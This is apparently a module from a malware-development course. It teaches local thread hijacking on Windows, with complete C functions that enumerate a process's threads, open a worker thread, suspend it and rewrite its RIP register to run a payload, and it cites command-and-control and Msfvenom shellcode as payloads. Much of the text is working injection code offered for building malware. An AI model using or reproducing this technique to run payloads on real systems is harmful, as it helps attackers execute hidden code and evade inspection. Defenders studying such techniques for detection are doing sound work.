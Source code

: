 # 4.5 Thread Hijacking - Local Thread Enumeration

### Introduction

So far, when local thread hijacking was performed, the target thread was created using `CreateThread` and its context was modified. This module will demonstrate an alternative method where the system's running threads are enumerated using `CreateToolhelp32Snapshot` and then hijacked.

### Thread Enumeration

Recall the use of `CreateToolhelp32Snapshot` from previous modules, where the WinAPI was used to retrieve a snapshot of the system's processes. In this module, the same WinAPI is being used but with a different value being used for the [dwFlags Parameter](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot#parameters). To enumerate the running threads on the system, the `TH32CS_SNAPTHREAD` flag must be specified. Using this flag, `CreateToolhelp32Snapshot` returns a [THREADENTRY32](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-threadentry32) structure that's shown below.

```c
typedef struct tagTHREADENTRY32 {
  DWORD dwSize;                       // sizeof(THREADENTRY32)
  DWORD cntUsage;
  DWORD th32ThreadID;                 // Thread ID
  DWORD th32OwnerProcessID;           // The PID of the process that created the thread.
  LONG  tpBasePri;
  LONG  tpDeltaPri;
  DWORD dwFlags;
} THREADENTRY32;
```

Each running thread has its own `THREADENTRY32` structure in the captured snapshot.

#### Identifying The Thread's Owner

According to Microsoft's documentation:

_To identify the threads that belong to a specific process, compare its process identifier to the `th32OwnerProcessID` member of the `THREADENTRY32` structure when enumerating the threads._

In other words, to determine the process to which the thread belongs, compare the target PID to `THREADENTRY32.th32OwnerProcessID`, which is the PID of the process that created the thread. If the PIDs match, then the thread presently being enumerated belongs to the target process.

#### Required WinAPIs

The following WinAPIs will be used to perform thread enumeration.

- [CreateToolhelp32Snapshot](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) - Used with the `TH32CS_SNAPTHREAD` flag to receive a snapshot of all the threads running on the system.
    
- [Thread32First](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first) - Used to get the information about the first thread captured in the snapshot.
    
- [Thread32Next](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next), Used to get the information about the next thread in the captured snapshot.
    
- [OpenThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthread) - Used to open a handle to the target thread using its thread ID.
    
- [GetCurrentProcessId](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocessid) - Used to retrieve the local process's PID. Since the local process is the target process, its PID is required to determine whether the threads belong to this process.
    

### Worker Threads

Before diving into the thread enumeration code, it's important to understand the concept of _worker threads_. Although `CreateThread` is not used in the code, the Windows operating system will create worker threads in the process. These worker threads are valid targets for thread hijacking. An example of these worker threads can be seen below.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/tenum-0209185998-74b97dca-e541-401d-b700-b45852e7564a.png)

The threads that are shown in the image above, such as `ntdll.dll!EtwNotificationRegister+0x2d0`, are created by the operating system to run the `EtwNotificationRegister` function, which is related to the _ETW - Event Tracing for Windows_. ETW will be explained in future modules but for now, it is sufficient to understand that this function is used to notify the operating system when a certain event occurs in the process.

### Thread Enumeration Function

`GetLocalThreadHandle` utilizes the previously mentioned steps to perform thread enumeration. It takes 3 arguments:

- `dwMainThreadId` - The thread ID of the main thread of the local process. This is required to avoid targeting the local process's main thread.
    
- `dwThreadId` - A pointer to a DWORD that receives a hijackable thread's ID.
    
- `hThread` - A pointer to a HANDLE that receives a handle to the hijackable thread.
    

```c
BOOL GetLocalThreadHandle(IN DWORD dwMainThreadId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {
	
	// Getting the local process ID
	DWORD           dwProcessId  = GetCurrentProcessId();
	HANDLE          hSnapShot    = NULL;
	THREADENTRY32   Thr          = {
		.dwSize = sizeof(THREADENTRY32)
	};

	// Takes a snapshot of the currently running processes's threads 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first thread encountered in the snapshot.
	if (!Thread32First(hSnapShot, &Thr)) {
		printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {
		// If the thread's PID is equal to the PID of the target process then
		// this thread is running under the target process
		// The 'Thr.th32ThreadID != dwMainThreadId' is to avoid targeting the main thread of our local process
		if (Thr.th32OwnerProcessID == dwProcessId && Thr.th32ThreadID != dwMainThreadId) {

			// Opening a handle to the thread 
			*dwThreadId  = Thr.th32ThreadID;
			*hThread     = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);

			if (*hThread == NULL)
				printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());

			break;
		}

	// While there are threads remaining in the snapshot
	} while (Thread32Next(hSnapShot, &Thr));


_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwThreadId == NULL || *hThread == NULL)
		return FALSE;
	return TRUE;
}

```

### Local Thread Hijacking Function

Once a valid handle to the target thread has been obtained, it can be passed to the `HijackThread` function. The [SuspendThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread) WinAPI will be used to suspend the thread and then `GetThreadContext` and `SetThreadContext` will be used to update the `RIP` register to point to the payload's base address. Additionally, the payload must be written to the local process memory before hijacking the thread.

```c

BOOL HijackThread(HANDLE hThread, PVOID pAddress) {

	CONTEXT	ThreadCtx = {
		.ContextFlags = CONTEXT_ALL
	};

	SuspendThread(hThread);

	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	ThreadCtx.Rip = pAddress;

	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("\t[#] Press <Enter> To Run ... ");
	getchar();

	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}
```

### Demo

Note that the payload execution may take some time as the hijacked thread is not the main thread and does not run continuously.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/tenum-109188468-94e7741b-8953-4079-8a7c-8ab3cc449779.png)

  

Additionally, depending on the payload, the local process may crash after execution. For example, if the payload is for a command and control server, the process will continue running, however, if Msfvenom's calc shellcode was used, the process will crash because Msfvenom's calc shellcode terminates the calling thread.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/tenum-209188936-9a4de3fe-fd13-4a25-b343-153a59ea894b.png)